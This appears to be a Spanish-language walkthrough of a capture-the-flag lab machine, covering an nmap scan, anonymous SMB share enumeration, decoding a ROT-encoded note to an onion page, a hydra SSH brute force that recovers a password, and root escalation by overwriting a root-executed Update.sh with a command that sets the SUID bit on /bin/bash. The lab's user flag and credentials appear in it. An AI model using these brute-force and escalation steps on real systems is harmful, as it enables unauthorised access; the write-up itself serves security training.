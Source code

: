 Empezamos haciendo un escaneo de puertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y nos da los siguientes puertos abiertos:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4261/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 17420/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-03T21:45:06
|_  start_date: N/A
|_clock-skew: 0s
```

Nos llama la atención el puerto 445, por lo tanto vamos a tirar el reconocimiento por ahí. 

Ejecutamos el siguiente comando:

```
smbclient -L 172.17.0.2 -N

    Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        darkshare       Disk      
        IPC$            IPC       IPC Service (5e24847105d5 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Nos conectamos a smb y vemos que hay un montón de archivos. Nos los descargamos todos.

```
smbclient  \\\\172.17.0.2\\darkshare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 05:24:32 2024
  ..                                  D        0  Sat Dec 14 05:24:32 2024
  archivesDatabases.txt               N      563  Sat Dec 14 05:16:30 2024
  ilegal.txt                          N      204  Sat Dec 14 05:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 05:17:13 2024
  hackingServices.txt                 N      662  Sat Dec 14 05:18:19 2024
  drugs.txt                           N      526  Sat Dec 14 05:17:49 2024
```

El archivo que nos muestra algo importante es el de *ilegal.txt*:

```
cat ilegal.txt         

St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:

use 5, you understand me
```

Vemos que es un mensaje que puede estar cifrado. Probamos en cyberchef a ver en que está cifrado.

En cyberchef conseguimos descifrarlo, estaba cifrado en rot 2. El mensaje descifrado es:

```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Se trata de una página de tor al ser .onion 
Nos devuelve esta web:

![[Captura de pantalla 2025-07-04 001948.png]]

Le damos a *Access the Darkest Web* y nos muestra esto:

![[Captura de pantalla 2025-07-04 002133.png]]

Seleccionamos *Red Room 27* y nos manda a esta página, donde le preguntamos por user, éste nos devuelve un nombre de usuario.

![[Pasted image 20250704002511.png]]

A continuación debemos buscar un diccionario para intentar hacer fuerza bruta con ese usuario 

En el apartado *Hidden Marketplace* vemos cosas sospechosas, por tanto leemos el código fuente y vemos un nombre de un posible diccionario

![[Captura de pantalla 2025-07-04 002919.png]]

Vemos que nos tiene que redirigir a un archivo de texto, pero no sabemos como, probamos poniéndolo en la url y tenemos premio


![[Captura de pantalla 2025-07-04 002722.png]]

Todas estas posibles contraseñas nos las metemos en un archivo y a continuación, con el usuario que tenemos (dark) hacemos fuerza bruta para entrar por ssh:

```
hydra -l dark -P contraseñas.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-03 18:32:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 51 login tries (l:1/p:51), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

Y ahora entramos por ssh con estas credenciales y leemos la primera flag del usuario:

```
dark@5e24847105d5:~$ ls
hidden.py  user.txt
dark@5e24847105d5:~$ cat user.txt
2eedcb4e067f16aa9c795fd05f3056bd
dark@5e24847105d5:~$ 
```

Ahora para escalar privilegios hacemos un sudo -l:

```
dark@5e24847105d5:~$ sudo -l
Matching Defaults entries for dark on 5e24847105d5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 5e24847105d5:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Vemos que ejecutamos como root ese script. Este script haría esto:

```
dark@5e24847105d5:~$ cat hidden.py 
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Lo ejecutamos y:

```
dark@5e24847105d5:~$ ./hidden.py 
dark
Script ejecutado con éxito.
```

Si leemos el script vemos que ejecuta un Update.sh, que está en la ruta /usr/local/bin/. En dicha ruta somos del grupo de la carpeta por tanto podemos eliminarla y crearnos nuestro *Update.sh* de esta manera:

```
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos, le damos permisos de ejecución y ahora si ejecutamos el script como sudo:

```
dark@5e24847105d5:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.
dark@5e24847105d5:~$ bash -p
bash-5.2# whoami
root
```

Y finalmente, pwned :)